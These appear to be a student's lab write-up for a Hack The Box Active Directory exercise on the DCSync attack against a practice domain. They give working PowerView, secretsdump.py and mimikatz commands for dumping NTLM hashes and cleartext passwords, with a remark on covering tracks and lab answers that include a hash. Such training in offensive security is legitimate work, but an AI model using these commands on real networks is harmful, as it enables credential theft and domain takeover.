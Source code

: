 # DCSync

So we remember that `adunn` has DCSync privileges in the INLANEFREIGHT.LOCAL domain.

{% hint style="success" %}
DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption><p><strong>adunn's Replication Privileges</strong></p></figcaption></figure>

**Using Get-DomainUser to View adunn's Group Membership**

```sh
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl

<SNIP>

objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
```

Now that we have the sid of the user we can search specifically for replication rights and check if our user `adunn` possesses these rights

```sh
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

<figure><img src="../../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

If we had certain rights over the user (such as [WriteDacl](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl)), we could also add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks.

{% hint style="info" %}
DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py
{% endhint %}

**Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**

```shell-session
ElFelixi0@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

We can use the `-just-dc-ntlm` flag if we only want NTLM hashes or specify `-just-dc-user <USERNAME>` to only extract data for a specific user.

**Viewing an Account with Reversible Encryption Password Storage Set**

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

When this option is set on a user account the passwords are stored using RC4 encryption. The trick here is that the key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin or equivalent. Tools such as `secretsdump.py` will decrypt any passwords stored using reversible encryption while dumping the NTDS file either as a Domain Admin or using an attack such as DCSync. We can enumerate this using the `Get-ADUser` cmdlet:

```powershell-session
PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
<SNIP>
```

**Checking for Reversible Encryption Option using Get-DomainUser**

```powershell-session
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

then we wan read the password just like this ->

```shell-session
ElFelixi0@htb[/htb]$ cat inlanefreight_hashes.ntds.cleartext 
```

We can perform the attack with Mimikatz as well. Using Mimikatz, we must target a specific user. Here we will target the built-in administrator account. We could also target the `krbtgt` account and use this to create a `Golden Ticket` for persistence, but that is outside the scope of this module.

Also it is important to note that Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:

```cmd-session
C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
```

This will spawn a shell for us, in this new shell we can run mimikatz ->

```powershell
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>

```

***

_**Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.**_

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

_**What is this user's cleartext password?**_

after ssh to htb-student on through RDP like said at the beginning at the course ->

```
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

_**Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.**_

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption><p>4bb3b317845f0954200a6b0acc9b9f9a</p></figcaption></figure>
